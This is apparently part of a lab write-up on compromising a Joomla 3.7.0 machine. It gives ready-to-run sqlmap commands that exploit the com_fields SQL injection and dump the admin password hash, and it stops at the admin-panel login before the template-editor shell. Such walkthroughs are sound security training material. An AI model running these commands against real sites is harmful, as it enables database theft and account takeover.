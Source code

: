 `joomscan` identified the Joomla version as **3.7.0** and noted directory listing was enabled for several components. It also flagged `com_biblestudy` with references to SQL Injection exploits.

A `searchsploit` query for Joomla 3.7.0 confirmed a relevant SQL Injection vulnerability:

```shellscript
searchsploit joomla 3.7.0
```

The most promising exploit was `Joomla! 3.7.0 - 'com_fields' SQL Injection` (`php/webapps/42033.txt`).

## Initial Foothold (SQL Injection & Web Shell)

### Exploiting `com_fields`SQL Injection

I reviewed the `42033.txt` exploit, which detailed a SQL injection vulnerability in the `list[fullordering]` GET parameter of the `com_fields` component. I used `sqlmap` to enumerate databases:

```shellscript
sqlmap -u "http://192.168.1.19/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

`sqlmap` confirmed the vulnerability and listed the following databases: `information_schema`, `joomladb`, `mysql`, `performance_schema`, and `sys`. The `joomladb` was the target.

Next, I enumerated tables within `joomladb`:

```shellscript
sqlmap -u "http://192.168.1.19/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --tables -D joomladb -p list[fullordering]
```

The `#__users` table was identified as containing user information. I proceeded to dump the `username` and `password` columns:

```shellscript
sqlmap -u "http://192.168.1.19/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -p list[fullordering] -D joomladb -T "#__users" -C "username,password" --dump --threads=1 --hex --fresh-queries
```

This successfully dumped the following credentials:

| username | password
|-----|-----
| admin | `$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu`


The `admin` username and its bcrypt hash were retrieved.

### Gaining `www-data`Shell via Joomla Template Editor

With the `admin` credentials, I logged into the Joomla administrator panel at `http://192.168.1.19/administrator/`.

<img width="1366" height="683" alt="image" src="https://github.com/user-attachments/assets/f9b7fb65-9ba2-450b-9e3a-a4fe171643b9" />
